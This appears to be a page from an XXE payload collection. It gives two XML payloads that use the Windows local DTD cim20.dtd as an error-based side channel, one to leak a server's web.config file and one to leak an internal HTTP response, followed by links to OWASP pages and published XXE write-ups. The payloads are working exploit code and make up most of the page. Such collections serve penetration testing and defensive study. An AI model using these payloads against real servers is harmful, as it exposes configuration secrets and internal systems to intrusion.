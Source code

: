 
## Windows Local DTD and Side Channel Leak to disclose HTTP response/file contents

From https://gist.github.com/infosec-au/2c60dc493053ead1af42de1ca3bdcc79

### Disclose local file

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://t/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>cacat</xxx>
```

### Disclose HTTP Response:

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "https://erp.company.com">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://test/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>cacat</xxx>
```

## References

* [XML External Entity (XXE) Processing - OWASP](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)
* [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [Detecting and exploiting XXE in SAML Interfaces](http://web-in-security.blogspot.fr/2014/11/detecting-and-exploiting-xxe-in-saml.html) - 6. Nov. 2014 - Von Christian Mainka
* [[Gist] staaldraad - XXE payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
* [[Gist] mgeeky - XML attacks](https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870)
* [Exploiting xxe in file upload functionality - BLACKHAT WEBCAST - 11/19/15 - Will Vandevanter - @_will_is_](https://www.blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf)
* [XXE ALL THE THINGS!!! (including Apple iOS's Office Viewer)](http://en.hackdig.com/08/28075.htm)
* [From blind XXE to root-level file read access - December 12, 2018 by Pieter Hiele](https://www.honoki.net/2018/12/from-blind-xxe-to-root-level-file-read-access/)
* [How we got read access on Google’s production servers](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/) April 11, 2014 by  detectify
* [Blind OOB XXE At UBER 26+ Domains Hacked](http://nerdint.blogspot.hk/2016/08/blind-oob-xxe-at-uber-26-domains-hacked.html) August 05, 2016 by Raghav Bisht
* [OOB XXE through SAML](https://seanmelia.files.wordpress.com/2016/01/out-of-band-xml-external-entity-injection-via-saml-redacted.pdf) by Sean	Melia @seanmeals
* [XXE in Uber to read local files](https://httpsonly.blogspot.hk/2017/01/0day-writeup-xxe-in-ubercom.html) 01/2017
